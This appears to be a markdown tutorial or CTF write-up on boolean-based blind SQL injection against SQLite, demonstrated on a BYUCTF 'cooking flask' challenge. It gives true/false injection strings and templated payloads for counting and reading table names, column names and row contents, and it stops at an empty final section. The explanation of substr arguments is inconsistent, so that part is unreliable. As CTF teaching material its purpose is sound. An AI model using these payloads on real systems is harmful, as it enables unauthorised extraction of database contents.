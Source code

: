 ------------------

### Exploiting sqlite3

------------------

### Blind SQLite3 exfiltration

-----------------

- The method below is `Boolean based` which is `True` or `False` e.g If a statement is true, return this data and if false, do not return this query.
- This approach will be explained with `BYUCTF` `cooking flask` web challenge.The `tag` query is vulnerable-:

![image](https://github.com/user-attachments/assets/0f4fe54e-c1ed-4e87-a3d1-ccdfc717b127)

- Now let's move over to burp suite to understand the logic.If I send a statement `Italian%') and 1=1--+`,we get the data for `Italian` back because there is a column `Italian` and `1` is equals to `1` which is a true statement.You'll notice in the response tab that we got the data for `Italian`.

![image](https://github.com/user-attachments/assets/38f49ef1-6e3e-4f5a-8387-a4a32f74d597)

- Now, let us pass a false statement like `Italian%') and 1=2--+`, we didn't get any result.

![image](https://github.com/user-attachments/assets/d7610063-122a-4ba4-b85f-be22488c55c9)

- That's just the basis of Boolean based injection, if our statement is right,we'll get a positive result and if the statement is false, we'll get a negative result.

-----------------

### Counting the amount of tables

------------------

- The count() function in sql is used to count the amount of stuffs in a database. Digit will be placed after equals to `=`.`Count()` can count amount of rows,column and tables in a dataabase.

```sql
(SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' ) = {number}
```

-------------------

### Tables length

--------------------

- Use the length() function,the code below is used to count the character length of table.I added `LIMIT` and `OFFSET` because we have to limit the table to a single one.If offset is set to `0` and limit is set to `1`, the first row will be read, to read the others, you just need to increment it.`Offset-:`1 and `limit` to 2.

```sql
(SELECT length(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name not like 'sqlite_%' LIMIT 1 OFFSET 0) = {number}
```

---------------------

### Reading the tables's characters

----------------------

- The functions `hex()` and `substr()` are useful in this scenario.You limit the rows and column with limit and offset and select the characters with `substr()`,the substr requires 3 arguments `(tbl_name,{characters'limit},{character's start})` which is hexed with `hex()` and checked if it is equal to a character that is hexed.The second argument of substr should be incremented only while the third argument is set to `1`.

```sqlite
(SELECT hex(substr(tbl_name,{character's end},{character's stop})) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit {i+1} offset {i}) = hex('{char}')--+"
```

-------------------

### Counting Columns-:

-------------------

- Query-:`count()`

```sqlite3
(SELECT count(name) FROM PRAGMA_TABLE_INFO('{table_name}'))={number}
```

-----------------------

### Column's length

-----------------------

- Query-:`length()`

```sqlite3
(SELECT+length(name)+FROM+PRAGMA_TABLE_INFO('{table_name}')+LIMIT+{end}+OFFSET+{start})={number}
```

------------------------

### Column's characters

------------------------

- Welp,limit and offset requires the same logic used for tables but `substr()`'s second argument should be set to `1` and the third one should incremented.`WHEN` holds the characters found e.g substr(name,1,4) indicates you are looking for the fourth character, so `WHEN` should be `fla+{new_character}`.

```sqlite3
(select+case+substr(name,1,{digit+1})+WHEN+'{character}'+THEN+1+ELSE+1/0+END+FROM+PRAGMA_TABLE_INFO('{table_name}') LIMIT {i+1} OFFSET {i})
```

---------------------------

### COUNTING THE ROWS IN A COLUMN

--------------------

- You still have to use count() to achieve this.

```sqlite3
(SELECT+count({column_name})+FROM+{table_name})={digit}
```

--------------------

### COUNTING THE CHARACTER LENGTH OF A ROW

---------------------

- OFFSET AND LIMIT perform the same job and limit the rows to one.It still requires length like tables and columns.

```sqlite3
(SELECT+length({column_name})+FROM+{table_name} LIMIT {length+1} OFFSET {length})={digit}
```

---------------------

### Reading character off the rows 

---------------------

- 

